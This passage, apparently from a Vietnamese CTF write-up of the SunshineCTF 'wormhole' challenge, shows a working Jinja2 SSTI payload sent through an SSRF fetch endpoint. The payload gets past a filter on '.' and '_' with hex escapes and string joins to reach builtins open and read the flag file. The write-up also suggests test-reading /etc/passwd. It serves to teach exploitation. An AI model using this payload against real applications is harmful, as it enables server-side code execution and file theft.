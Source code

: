 ### Phân tích mã nguồn

Mã nguồn trả về đã tiết lộ hai bí mật quan trọng:

1. **Logic WAF:**
    
    ```python
    if '.' in template_input or '_' in template_input:
        return "Nope."
    ```
    
2. **Vị trí Flag:**
    
    ```python
    FLAG = open("flag.txt").read()
    ```
    

### Payload cuối cùng để đọc flag `/opt/chal/flag.txt`

Dựa trên thông tin từ mã nguồn, chúng ta xây dựng payload cuối cùng để đọc file `flag.txt`.

```visual-basic
POST /fetch HTTP/2
Host: wormhole.sunshinectf.games
Content-Type: application/x-www-form-urlencoded
Allow: true
Content-Length: 184

url=http://localhost:8000/admin?template={{ (cycler['\\x5f\\x5fin'~'it\\x5f\\x5f']['\\x5f\\x5fglob'~'als\\x5f\\x5f']['\\x5f\\x5fbuilt'~'ins\\x5f\\x5f']['op'~'en']('/opt/chal/flag'~'\\x2e'~'txt'))|join }}

```

**Kết quả (Flag)**

Thực thi request cuối cùng này đã trả về nội dung của file flag.

<img width="1510" height="847" alt="image" src="https://github.com/user-attachments/assets/38280166-156b-43fd-9b2d-45536571011d" />


`sun{h34der_fuzz1ng_4nd_ssti_1s_3asy_bc10bf85cabe7078}`

---

## Ghi chú và mẹo

- Thử thách này là một ví dụ điển hình về việc "chậm mà chắc". Mỗi thất bại đều cung cấp thông tin giá trị. Việc thực hiện các bài test chẩn đoán nhỏ, chỉ kiểm tra một giả thuyết duy nhất, là chìa khóa để đánh bại các hệ thống phòng thủ phức tạp.
- Khi đối mặt với một WAF SSTI, đừng bao giờ cho rằng nó chỉ chặn các từ khóa đơn giản. Hãy chuẩn bị tinh thần để đối phó với các bộ lọc hành vi, theo dõi đối tượng (taint tracking), và các quy tắc dựa trên ngữ cảnh.
- Việc khai thác các đối tượng toàn cục ít được biết đến (`cycler`, `joiner`) thường là một điểm yếu mà các quản trị viên bỏ sót khi cấu hình sandbox.
- Luôn nhớ rằng `FileNotFoundError` có thể được che giấu dưới một thông báo lỗi chung. Nếu bạn tin rằng payload của mình đã đúng, hãy thử đọc một file chắc chắn tồn tại (như `/etc/passwd`) để xác minh khả năng đọc file trước khi đi tìm mục tiêu chính.

---